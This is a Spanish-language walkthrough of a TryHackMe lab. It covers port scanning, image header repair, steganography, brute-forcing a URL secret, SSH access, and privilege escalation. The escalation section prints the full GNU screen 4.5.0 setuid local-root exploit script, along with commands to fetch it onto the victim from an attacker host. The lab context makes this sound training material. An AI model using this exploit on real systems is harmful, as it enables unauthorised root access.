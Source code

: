 Bienvenidos a otra sala de TryHackMe !. En esta sala, usaremos nuestra herramienta bien conocida para escanear puertos abiertos, descubriremos como editar y solucionar problemas de error en una imagen con formatos distintos. Utilizaremos steghide para extraer informacion de imagenes y establecer una conexion ssh al sistema para luego escalar privilegios abusandonos de un programa con version desactualizada.

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.23s latency).
Scanned at 2023-07-01 23:52:17 EDT for 23s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap

```

Nuestro escaneo nmap nos muestra 2 puertos abiertos bien conocidos. Navegaremos dentro del servidor web y nos encontramos que pertenece al servicio apache. Podemos iniciar un reconocimiento a directorios ocultos, pero si abrimos el page source de la pagina vemos un mensaje oculto por nuestro querido amigo. Se trata de una imagen **thm.jpg** que al querer abrirla dentro de nuestro navegador nos va a dar un error. Si observamos el nombre de la ventana (PNG IMAGE) ya podemos darnos una idea de lo que esta pasando. El archivo esta con extension .png pero parece que pertenece a la extension .jpg. Para corregir esto nos transferimos la imagen a nuestra maquina atacante para editar los valores y pasarlo a extension .jpg con `hexeditor`

En nuestra maquina atacante : `wget http://IPTARGET/thm.jpg`
Una vez transferido el archivo, abrimos la imagen con hexeditor y podemos notar que pertenece al grupo .jpg pero con valores de .png
Pasamos a modificar con `hexeditor`:

```bash
hexeditor thm.jpg

VALOR PNG --> '89 50 4E 47 0D 0A 1A 0A 00 00 00 01'
VALOR JPG --> 'FF D8 FF E0 00 10 4A 46 49 46 00 01'
```

Ahora al abrir la imagen, encontraremos un directorio secreto.

# Intrusion

Navegamos al directorio que descubrimos anteriormente y nos encontraremos con un mensaje de algun secreto que tenemos que consultarle a la pagina. Miramos el page source y vemos que el secreto va del 0 al 99. Lo que tenemos que hacer en este caso, es agregarle la palabra `?secret=0` al final de la URL. Para no hacer esto de modo manual, crearemos un script en python para que nos facilite la tarea.

```python
import requests

url_base = "http://IPTARGET/th1s_1s_h1dd3n/?secret={}"

# Iterar del 0 al 99
for i in range(100):
	url = url_base.format(str(i)) # Formatear la URL con el valor de la cadena de secreto actual
	response = requests.get(url) # Hacer la solicitud HTTP GET
	# Aqui podes procesar la respuesta de la solicitud.. extraer analizar, segun el sitio web.
	print("URL:", url)
	print("Respuesta:", response.text)
	print("-----")
```

Una vez modificada la IP y ejecutando el script, empezara a hacer consultas al servidor web probando diferentes secretos, al encontrar el secreto nos notificara y nos mostrara el mensaje. Una vez encontrado el numero, podemos ver un mensaje que nos deja esta persona con algun tipo de mensaje secreto. 

Al pasarlo por cyberchef, probando diferentes metodos para descubrir que es lo que quiso decir, pero no tuve exito. Volvi a la sala de Tryhackme y mire en la descripcion que debia utilizar `steghide`. Como obtuvimos una imagen anteriormente, probe poniendo este mensaje secreto, que resulto ser la password para extraer el contenido de la imagen **thm.jph** que habiamos descubierto antes.

```bash
steghide info thm.jpg # Nos muestra informacion  si existe algun archivo oculto
steghide extract -sf thm.jpg # Extraemos dicho archivo
```

Bien, obtuvimos un archivo .txt. Ya tenemos un user . Intente hacer ssh con la password anteriormente usada, pero no tuve exito.. Tenemos que buscar otra manera de encontrar la password que pertenece a la conexion ssh.

Repasando todo otra vez, fijandome si me olvidaba de algo, no le econtraba solucion.
El sercreto estaba dentro de la sala, que sin darme cuenta y pasarla por alto, hay una imagen que tenemos que usarla para encontrar la password que necesitamos para establecer la conexion.
Nos transferimos la imagen :`wget https://i.imgur.com/5iW7kC8.jpeg`

No necesitara password para extrar el archivo.

```bash
steghide extract -sf 5iW7kC8.jpeg
```

Bueno, ya tenemos nuestra credenciales, pero el usuario parece que no encaja. Tiene algun tipo de codificacion, asique volvi a cyberchef y lo decodifique usando `Vigenere decode` con la palabra clave **n**. Asi, ya tenemos nuestras credenciales para establecer nuestra conexion ssh.

```bash
ssh joker@IPTARGET
```

# Priv. Escalation

Listamos permisos elevados dentro del sistema ejecutando :

```bash
find / -type f -perm -4000 -ls 2>/dev/null

 -rwsr-xr-x root root        Mar  4  2019 /usr/lib/openssh/ssh-keysign
 -rwsr-xr-- root messagebus  Nov 29  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-
 -rwsr-xr-x root root        Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
 -rwsr-xr-x root root        May  8  2018 /usr/bin/vmware-user-suid-wrapper
 -rwsr-xr-x root root        Mar 26  2019 /usr/bin/gpasswd
 -rwsr-xr-x root root        Mar 26  2019 /usr/bin/passwd
 -rwsr-xr-x root root        Mar 26  2019 /usr/bin/newgrp
 -rwsr-xr-x root root        Mar 26  2019 /usr/bin/chsh
 -rwsr-xr-x root root        Mar 26  2019 /usr/bin/chfn
 -rwsr-xr-x root root        Oct 11  2019 /usr/bin/sudo
 -rwsr-xr-x root root        Jul 12  2016 /bin/fusermount
 -rwsr-xr-x root root        Mar 26  2019 /bin/su
 -rwsr-xr-x root root        May  7  2014 /bin/ping6
 -rwsr-xr-x root root        Jan  4  2020 '/bin/screen-4.5.0'
 -rwsr-xr-x root root        Jan  4  2020 '/bin/screen-4.5.0.old'
 -rwsr-xr-x root root        Oct 10  2019 /bin/mount
 -rwsr-xr-x root root        May  7  2014 /bin/ping
 -rwsr-xr-x root root        Oct 10  2019 /bin/umount

```

Bueno, ya tenemos un programa con su version. Nosotros como atacantes nos interesa saber esto, asique realizamos una busqueda acerca de este programa y como podemos abusarnos de esto para escalar privilegios.

Al hacer una busqueda, primero verificamos si el programa funcione corroborando la version del sistema, esto lo hacemos ejecutando `screen --version`.
Buscamos el exploit para `screen 4.5.0`. Utilice este exploit que ya viene armado y podemos usar para obtener una shell con  permisos root. https://www.exploit-db.com/exploits/41154

```c
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

Una vez lo tengamos en nuestra maquina atacante, abrimos un servidor python3 http para transferirnos el archivo a la maquina victima del sistema. Le daremos permisos de ejecucion y lo ejecutamos. Una vez terminado el proceso, tendremos nuestra shell interactiva de usuario raiz root.

```bash
python3 -m http.server 8080 # Dentro del directorio donde tengamos el exploit

cd /dev/shm # Maquina victima del sistema
wget http://LHOST:8080/exploit.c
chmod +x exploit.c
./exploit.c

```


